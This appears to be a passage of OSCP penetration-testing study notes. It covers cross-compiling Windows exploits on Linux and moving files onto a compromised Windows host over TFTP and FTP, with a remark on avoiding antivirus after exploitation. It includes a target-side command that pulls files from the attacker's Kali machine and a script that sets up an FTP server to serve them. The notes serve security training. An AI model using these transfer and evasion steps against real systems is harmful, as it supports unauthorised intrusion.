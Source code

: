### Windows Compilation
You can compile and run in Linux with mingw-w64 and wine!
```sh
apt install mingw-w64
i686-w64-mingw32-gcc [.c] -o [.exe] # -lws2_32
i686-w64-mingw32-g++ [.cpp] -o [.exe]
wine [.exe]
```

### Tips
* i686-w64-mingw32-gcc -lws2_32 - https://stackoverflow.com/a/2033632/4908573
* Malloc and memcpy, allocate and initialize with null bytes - https://forums.offensive-security.com/showthread.php?2363-Fixing-643-c-script&p=9453#post9453
* Adding +1 to pointers is 4 bytes - https://stackoverflow.com/a/11598369/4908573

# File Transfers
Antivirus may be triggered by an upload, so be careful when transferring files. One of OffSec's favourite ways to avoid AV is to use legitimate administrative tools during post exploitation phase.

## File Transfer Methods
Unix environments will often have tools such as `nc`, `curl`, `wget` preinstalled, making file transfer simple. However, on Windows, the process is not as straight forward.

Most netcat-like connections provide a non-interactive shell. Interactive commands like `ftp` on Windows won't work. So we have to transfer files using non-interactive methods.

### TFTP
Windows XP and 2003. Windows 7, 2008 and above will need to be explicitly added during installation.

Easy, but slow speed of 2kb/sec

On Kali:
```sh
mkdir /tftp # DIRECTORY HOSTING FILES
atftpd --daemon --port 69 /tftp
```

On Windows:
```cmd
tftp -i [kali ip] get [file]
```

### FTP
All Windows.

Fast speed of 206kb/sec. Scripts available in OSCP-Notes/scripts

On Kali:
```sh
#!/bin/bash
apt update && apt install pure-ftpd
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome # use user offsec when logging into ftp
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome # DIRECTORY HOSTING FILES
chown -R ftpuser:ftpgroup /ftphome/
service pure-ftpd restart
```
